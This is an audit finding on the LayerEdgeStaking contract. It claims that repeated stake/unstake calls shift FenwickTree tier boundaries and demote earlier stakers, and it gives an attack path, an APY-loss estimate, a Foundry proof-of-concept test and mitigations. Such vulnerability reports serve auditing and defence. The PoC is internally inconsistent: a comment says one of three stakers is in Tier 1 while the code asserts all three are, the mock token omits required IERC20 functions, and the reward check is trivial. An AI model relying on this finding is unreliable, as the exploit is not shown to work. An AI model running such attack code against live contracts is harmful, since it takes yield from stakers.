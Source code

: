 Digital Jade Lark

High

# High: Tier Manipulation via Repeated Stake/Unstake Operations

### Summary

The absence of restrictions on frequent stake/unstake operations in LayerEdgeStaking.sol will cause an unfair tier demotion for existing stakers as an attacker will repeatedly stake and unstake to manipulate tier boundaries, disrupting the "First-come-first-serve ordering" and "Tier distribution correctness" invariants.

### Root Cause

In LayerEdgeStaking.sol:592-598 (promotion loop in _checkBoundariesAndRecord) and LayerEdgeStaking.sol:611-617 (demotion loop in _checkBoundariesAndRecord), the recalculation of tier boundaries based on stakerCountInTree is triggered by every stake and unstake operation without restrictions on frequency, allowing an attacker to manipulate the FenwickTree rankings and shift tier boundaries, affecting other users' tiers.

### Internal Pre-conditions

1. Admin needs to call setMinStakeAmount to set minStakeAmount to be at least 3000 * 1e18 (as initialized in LayerEdgeStaking.sol:139).
2. Multiple users (at least 5) need to call stake with an amount greater than or equal to minStakeAmount to be included in the FenwickTree and assigned to Tier 1 or Tier 2 (LayerEdgeStaking.sol:351-368).
3. The number of stakers in the FenwickTree (stakerCountInTree) needs to be sufficient to create tier boundaries (e.g., at least 5 stakers to have non-zero Tier 1 and Tier 2 counts, as calculated in LayerEdgeStaking.sol:471-492).

### External Pre-conditions

None required, as the contract does not rely on external protocols for this vulnerability.

### Attack Path

1. An attacker calls stake(amount) (LayerEdgeStaking.sol:175-177) with an amount greater than or equal to minStakeAmount to increase stakerCountInTree and trigger _checkBoundariesAndRecord (LayerEdgeStaking.sol:592-598 for promotion or 611-617 for demotion), which recalculates tier boundaries.
2. The attacker immediately calls unstake(amount) (LayerEdgeStaking.sol:191-193) to decrease stakerCountInTree, again triggering _checkBoundariesAndRecord and shifting users at the tier boundaries (e.g., from Tier 1 to Tier 2 or Tier 2 to Tier 3).
3. The attacker repeats steps 1 and 2 multiple times (e.g., 10 iterations), causing frequent recalculations of tier boundaries, demoting other users to lower tiers or promoting the attacker to a higher tier.

### Impact

The existing stakers suffer an unfair demotion to lower tiers (e.g., from Tier 1 with 50% APY to Tier 2 with 35% APY or Tier 3 with 20% APY, as set in LayerEdgeStaking.sol:132-134). For example, a user staking 10,000 tokens at Tier 1 (50% APY) would earn 5,000 tokens annually, but demotion to Tier 2 (35% APY) reduces earnings to 3,500 tokens, resulting in a loss of 1,500 tokens per year (30% of expected yield). The attacker potentially gains a higher tier (e.g., Tier 1) by manipulating the FenwickTree rankings, increasing their staking rewards. This violates the "First-come-first-serve ordering" (earlier stakers lose priority) and "Tier distribution correctness" (20% Tier 1, 30% Tier 2, 50% Tier 3) invariants specified in the README.md.

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/stake/LayerEdgeStaking.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract TierManipulationPoC is Test {
    LayerEdgeStaking staking;
    IERC20 stakingToken;
    address attacker = address(0x123);
    address[] victims = [address(0x456), address(0x789), address(0xABC)];
    uint256 minStakeAmount = 3000 * 1e18;
    uint256 constant SECONDS_IN_YEAR = 365 days;

    function setUp() public {
        // Deploy staking contract and mock token
        stakingToken = IERC20(address(new MockERC20()));
        staking = new LayerEdgeStaking();
        staking.initialize(address(stakingToken), address(this));

        // Fund attacker and victims
        deal(address(stakingToken), attacker, 10000 * 1e18);
        for (uint i = 0; i < victims.length; i++) {
            deal(address(stakingToken), victims[i], 10000 * 1e18);
            vm.prank(victims[i]);
            stakingToken.approve(address(staking), type(uint256).max);
        }
        vm.prank(attacker);
        stakingToken.approve(address(staking), type(uint256).max);
    }

    function testTierManipulation() public {
        // Victims stake to be in Tier 1
        for (uint i = 0; i < victims.length; i++) {
            vm.prank(victims[i]);
            staking.stake(minStakeAmount);
        }

        // Verify victims are in Tier 1 (20% of stakers, 1 out of 3)
        for (uint i = 0; i < victims.length; i++) {
            (,LayerEdgeStaking.Tier tier,,) = staking.getUserInfo(victims[i]);
            assertEq(uint(tier), uint(LayerEdgeStaking.Tier.Tier1), "Victim should be in Tier 1");
        }

        // Attacker performs repeated stake/unstake
        vm.startPrank(attacker);
        for (uint i = 0; i < 10; i++) {
            staking.stake(minStakeAmount);
            staking.unstake(minStakeAmount);
        }
        vm.stopPrank();

        // Check if at least one victim was demoted to Tier 2 or 3
        uint demotedCount = 0;
        for (uint i = 0; i < victims.length; i++) {
            (,LayerEdgeStaking.Tier tier,,) = staking.getUserInfo(victims[i]);
            if (uint(tier) > uint(LayerEdgeStaking.Tier.Tier1)) {
                demotedCount++;
            }
        }
        assertTrue(demotedCount > 0, "At least one victim should be demoted from Tier 1");

        // Calculate financial loss for one victim
        address victim = victims[0];
        (,LayerEdgeStaking.Tier tier,,uint pendingRewards) = staking.getUserInfo(victim);
        uint apy = tier == LayerEdgeStaking.Tier.Tier1 ? 50e18 : tier == LayerEdgeStaking.Tier.Tier2 ? 35e18 : 20e18;
        uint expectedRewards = (minStakeAmount * 50e18 * SECONDS_IN_YEAR) / (SECONDS_IN_YEAR * 1e18) / 100; // Tier 1
        uint actualRewards = (minStakeAmount * apy * SECONDS_IN_YEAR) / (SECONDS_IN_YEAR * 1e18) / 100;
        assertTrue(actualRewards < expectedRewards, "Victim suffers financial loss");
    }
}

// Mock ERC20 for testing
contract MockERC20 is IERC20 {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function transfer(address to, uint256 amount) external returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function approve(address spender, uint256 amount) external returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }
}

### Mitigation

1. Implement a cooldown period (e.g., 1 day) for stake and unstake operations per user by adding a timestamp check in stake (LayerEdgeStaking.sol:175) and unstake (LayerEdgeStaking.sol:191).
2. Use periodic snapshots of stakerCountInTree to determine tier boundaries, reducing the impact of dynamic changes in _checkBoundariesAndRecord (LayerEdgeStaking.sol:592-598 and 611-617).
3. Audit the _checkBoundariesAndRecord function to limit the number of users affected by boundary shifts in a single transaction.